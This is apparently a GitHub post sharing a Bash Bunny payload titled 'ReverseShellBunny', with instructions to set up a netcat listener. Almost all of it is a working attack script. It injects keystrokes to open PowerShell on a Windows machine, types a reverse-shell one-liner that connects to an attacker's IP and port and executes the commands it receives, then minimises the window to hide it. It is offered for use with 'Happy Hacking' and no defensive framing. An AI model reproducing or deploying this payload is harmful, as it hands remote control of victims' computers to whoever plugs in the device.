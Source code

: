 A simple reverse shell for the Bash Bunny. I use it to connect to a Lightsail server. Just enter the IP and Port of the listener. Listener command nc -lnvp then port number.
Put payload in switch folder.

Heres the code. Happy Hacking.

#TITLE. ReverseShellBunny
#AUTHOR.DarkStorme
#Reverse Shell for the Bash Bunny

#!/bin/bash

# Set attack mode to HID
ATTACKMODE HID

# LED attack indication
LED ATTACK

# Open PowerShell
QUACK GUI r
QUACK DELAY 500
QUACK STRING powershell.exe
QUACK DELAY 500
QUACK ENTER
QUACK DELAY 2000

# Define the PowerShell payload
PS_PAYLOAD='$client = New-Object System.Net.Sockets.TCPClient("IP ADDRESS",PORT);$stream = $client.GetStream();$bytes = New-Object byte[] 65536;while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = [System.Text.Encoding]::ASCII.GetString($bytes, 0, $i);$sendback = (Invoke-Expression -Command $data 2>&1 | Out-String);$sendbyte = [System.Text.Encoding]::ASCII.GetBytes($sendback);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close()'

# Send the PowerShell payload
QUACK STRING "$PS_PAYLOAD"
QUACK ENTER
QUACK DELAY 5000
QUACK GUI d

# LED finish indication
LED FINISH
